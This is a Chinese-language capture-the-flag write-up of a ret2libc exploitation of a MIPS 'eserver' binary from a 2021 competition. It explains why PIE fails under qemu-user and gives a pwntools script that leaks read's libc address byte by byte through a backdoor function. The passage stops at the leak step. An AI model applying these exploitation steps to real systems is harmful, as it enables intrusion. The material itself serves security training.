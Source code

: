 # ret2libc
## qemu-user
> 题目来源：2021第四届强网拟态防御积分赛工控pwn eserver
>

进行checksec检查，发现开启了PIE和RELRO保护：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1660700287112-930cf1c0-779a-4d7a-beb6-1101421fae9a.png)

我们都知道，地址随机化只是保持低12位不变，高位还是会随机变的；但是这里需要注意的是，**<font style="color:#E8323C;">在强网比赛的时候环境是使用</font>**`**<font style="color:#E8323C;">qemu-user</font>**`**<font style="color:#E8323C;">模拟的，所以PIE保护是不会生效的，也就是说libc的地址固定不变。</font>**对`eserver`进行逆向分析，可以得到如下结论：

1.  main函数存在栈溢出。
2. main函数存在后门函数`backdoor`。
3. `backdoor`函数只能调用一次。

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1660789601866-f546e6db-4255-40f5-9c23-ac4730c3235b.png)

其中`后门函数backdoor`可以**<font style="color:#E8323C;">泄露出read函数的后3字节地址（低18位）中的任意一个字节</font>**：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1660700538616-220f616e-0816-45c6-b077-29cb8b0a848f.png)

因为该程序由`qemu-user`模拟，所以无论你重启多少次程序，read函数的地址永远不变。即，我们要启动3次程序以泄露出read函数的后三位真实地址，这一部分的代码如下：

```python
from pwn import *
context.arch = "mips"
context.endian = 'little'
# context.log_level = 'debug'

readOffset_True = 0
libc = ELF("./lib/libc.so.6")
for i in range(3):
    p = process(["qemu-mipsel-static", "-L", ".", "./eserver"])
    p.sendlineafter("Input package: ","Administrator")
    log.info(p.recv())
    sleep(0.1)
    p.sendlineafter("Input package: ",str(i))
    p.recvuntil("Response package: ")
    leak_byte = u8(p.recv(1))
    print(leak_byte)
    readOffset_True += (leak_byte << (8*i))
    p.close()
print(hex(readOffset_True))
```

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1660784041998-89c6f215-6b5f-4ae9-9d71-b0fae25ad322.png)

对照一下本题的libc：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1660784319404-0b08fe37-48d4-4f81-ab28-602bc0a903b0.png)
